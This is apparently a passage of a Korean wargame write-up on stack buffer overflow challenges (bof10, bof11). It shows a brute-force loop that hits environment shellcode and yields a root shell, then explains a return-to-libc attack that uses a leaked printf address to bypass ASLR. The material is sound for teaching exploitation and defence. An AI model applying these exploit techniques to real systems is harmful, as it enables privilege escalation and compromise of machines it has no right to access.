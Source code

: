    ```shell
    while : ; do ; ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done
    ```

14. 그러면 얼마간의 시간이 지난 후에 다음과 같이 **1.5%** 의 확률로 루트 쉘을 탈취할 수 있다. 

    ```shell
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffa601e8]!
    (env:SHELLCODE -> 0xffa60c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xff9af138]!
    (env:SHELLCODE -> 0xff9b0c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffc633c8]!
    (env:SHELLCODE -> 0xffc64c37)
    # id
    uid=0(root) gid=1011(bof10) groups=1011(bof10)
    # cat bof11.pw
    ```
    
# bof11 설명 (Memory leak)

1. `bof10` 과는 달리 `bof11` 에서는 `bof9` 처럼 스택에 실행권한이 존재하지 않는다. 그래서 `NOP` 코드를 **13만 바이트**나 넣어서 브루트 포싱하는 방법은 더 이상 통하지 않는다. 스택에 실행권한도 없고 **ASLR** 도 활성화되어 있어서 **RTL** 기법도 어려울 것 같다. 하지만 메모리의 데이터를 유출시킬 수 있다는 조건이 있을 때 **ASLR** 이 활성화되어있어도 **RTL** 을 적용할 수 있다.

    - 실제로 블루투스 취약점 **blueborne** 의 힙 오버플로우 취약점 **CVE-2017-0781** 은 쉘을 탈취할 수 있는 RCE(Remote Command Execution) 취약점인데, 이 취약점을 익스플로잇 하기 위해서 ASLR 을 우회하기 위하여 **CVE-2017-0785** 취약점을 사용하여 메모리 데이터를 유출시켰다. 

2. 그래서 `bof11` 은 메모리 유출 취약점이 존재해서 `printf` 함수의 주소값을 유출 시킨다는 설정이다. 다음과 같이 `bof11` 은 `printf` 함수의 주소값을 계속 유출 시키고 있고 **ASLR** 때문에 그 주소값이 계속 달라진다. 

    ```shell
    $ ./bof11
    printf() address : 0x7f26ea000800
    abc
    Hello abc!
    $ ./bof11
    printf() address : 0x7f753d893800
    abc
    Hello abc!
    $ ./bof11
    printf() address : 0x7fb4c41f8800
    abc
    Hello abc!
    ```

3. `bof9` 처럼 `bof11` 에서는 `system` 주소, `/bin/sh` 주소, `pop rdi ; ret` 주소가 필요하다. ASLR 때문에 각각의 주소값을 정확하게 알 수는 없으나 `printf` 함수의 주소값이 항상 유출된다는 조건이 있기 때문에 각각의 주소값과 `printf` 주소값과의 상대적 거리만 계산하면 ASLR 을 우회할 수 있다. **왜냐하면 `libc` 라이브러리 내부 함수끼리의 상대적 거리는 항상 똑같기 때문이다.**
